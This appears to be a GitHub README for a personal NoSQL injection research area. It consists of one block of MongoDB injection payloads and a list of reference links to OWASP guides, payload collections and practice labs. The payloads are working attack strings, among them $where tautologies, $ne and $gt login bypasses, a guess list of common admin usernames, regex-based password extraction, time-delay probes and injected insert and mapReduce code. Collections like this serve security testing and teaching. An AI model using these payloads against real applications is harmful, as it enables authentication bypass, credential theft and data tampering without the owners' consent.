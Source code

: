 # Injection
This is my injection research area

# Example:

Number one:
```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
|| 1==1//
|| 1==1%00
}, { password : /.*/ }
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';sleep(5000);
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
```
# Reference
1. [Wiki NOSQL](https://en.wikipedia.org/wiki/NoSQL)
2. [NOSQL-DataBase](http://nosql-database.org/)
3. [GO NoSQLi](https://github.com/Charlie-belmer/nosqli)
4. [NoSQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
5. [Testing for NoSQLi](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.6-Testing_for_NoSQL_Injection)
6. [Injection MongoDB](https://zanon.io/posts/nosql-injection-in-mongodb/)
7. [nosql-injections-classique-blind](https://www.dailysecurity.fr/nosql-injections-classique-blind/)
8. [Python NOSQLi username and password](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/tree/master)
9. [Wordlist Mongo](https://github.com/cr0hn/nosqlinjection_wordlists/tree/master)
10. [NoSQLi Lab](https://github.com/digininja/nosqlilab)
11. [Fault-Injection-Dataset](https://github.com/dessertlab/Fault-Injection-Dataset)
12. [Synthetic-dataset-for-SQL-Injection](https://github.com/lsiddiqsunny/Synthetic-dataset-for-SQL-Injection)
13. [Injection attacks in apps with NoSQL Backends](https://github.com/riyazwalikar/injection-attacks-nosql-talk)

